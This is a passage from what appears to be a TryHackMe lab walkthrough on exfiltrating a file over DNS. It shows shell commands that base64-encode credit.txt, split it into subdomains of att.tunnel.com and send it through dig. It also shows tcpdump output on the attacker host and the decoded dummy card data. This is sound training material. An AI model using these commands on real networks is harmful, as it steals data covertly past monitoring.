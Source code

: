 Splitting the content into a singleDNSrequest  

```markup
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com
```

Next, from theÂ victim2Â machine, we send the base64 data as a subdomain name with considering theÂ DNSÂ limitation as follows:  

Send the Encoded data via the dig command  

```markup
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
```

With some adjustments to the singleÂ DNSÂ request, we created and added the dig command to send it over theÂ DNS, and finally, we passed it to the bash to be executed. If we check the Attacker's tcpdump terminal, we should receive the data we sent fromÂ victim2.  

Receiving the Data Using tcpdump  

```markup
thm@attacker:~$ sudo tcpdump -i eth0 udp port 53 -v
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
22:14:00.287440 IP (tos 0x0, ttl 64, id 60579, offset 0, flags [none], proto UDP (17), length 104)
    172.20.0.1.56092 > attacker.domain: 19543% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76)
22:14:00.288208 IP (tos 0x0, ttl 64, id 60580, offset 0, flags [none], proto UDP (17), length 235)
    172.20.0.1.36680 > attacker.domain: 23460% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207)
22:14:00.289643 IP (tos 0x0, ttl 64, id 48564, offset 0, flags [DF], proto UDP (17), length 69)
    attacker.52693 > 172.20.0.1.domain: 3567+ PTR? 1.0.20.172.in-addr.arpa. (41)
22:14:00.289941 IP (tos 0x0, ttl 64, id 60581, offset 0, flags [DF], proto UDP (17), length 123)
    172.20.0.1.domain > attacker.52693: 3567 NXDomain* 0/1/0 (95)
```

Once ourÂ DNSÂ request is received, we can stop the tcpdump tool and clean the received data byÂ removing unwanted strings, and finally decodeÂ back the data using Base64 as follows,

Cleaning and Restoring the Receiving Data  

```markup
thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337
```

Nice! We have successfully transferred the content of theÂ credit.txtÂ over theÂ DNSÂ protocol manually.
